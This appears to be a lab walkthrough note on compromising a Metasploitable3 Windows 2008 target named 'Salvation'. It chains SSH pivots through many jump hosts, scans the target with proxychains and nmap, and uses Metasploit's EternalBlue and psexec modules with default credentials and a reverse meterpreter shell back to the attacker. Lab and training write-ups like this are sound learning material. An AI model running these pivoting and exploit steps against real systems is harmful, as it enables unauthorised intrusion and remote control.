 
### Salvation (Win2K8 - Metasploitable3)
- 03_10-Salvation
- adminstrator:vagrant
- 72.69.76.2

#### Tunnels
```
ssh -N -D 1080 -J virgil@192.168.1.200:22,cleopatra@172.1.98.15:22,cerberus@10.1.10.3:22,pluto@10.0.0.254:22,phlegyas@255.255.255.9:22,epicurus@9.9.9.8:22,minotaur@222.222.222.187:22,geryon@3.3.3.3:22 satan@6.6.6.6 -p 666
```
```
ssh -N -L 4445:72.69.76.2:445 -J virgil@192.168.1.200:22,cleopatra@172.1.98.15:22,cerberus@10.1.10.3:22,pluto@10.0.0.254:22,phlegyas@255.255.255.9:22,epicurus@9.9.9.8:22,minotaur@222.222.222.187:22,geryon@3.3.3.3:22 satan@6.6.6.6 -p 666
```
```
ssh -N -o GatewayPorts=yes -J virgil@192.168.1.200:22,cleopatra@172.1.98.15:22,cerberus@10.1.10.3:22,pluto@10.0.0.254:22,phlegyas@255.255.255.9:22,epicurus@9.9.9.8:22,minotaur@222.222.222.187:22,geryon@3.3.3.3:22 \
  satan@6.6.6.6 -p 666 \
  -R 45241:127.0.0.1:45241
```
```
proxychains nmap -sV -sT -Pn -n 72.69.76.2 
```
![[Pasted image 20250601125927.png]]

##### msfconsole
```
use exploit/windows/smb/ms17_010_eternalblue
set payload windows/x64/meterpreter/reverse_tcp
set rhost 127.0.0.1
set rport 4445
set lhost 72.69.76.76
set lport 45241
```
![[Pasted image 20250601130825.png]]
```
run
```
It will most likely fail and continue to fail due the the amount of hops being made.

```
use windows/smb/psexec
set rhost 127.0.0.1
set rport 4445
set lhost 72.69.76.76
set lport 45241
set smbuser administrator
set smbpass vagrant
```
![[Pasted image 20250601135928.png]]
```
run
```

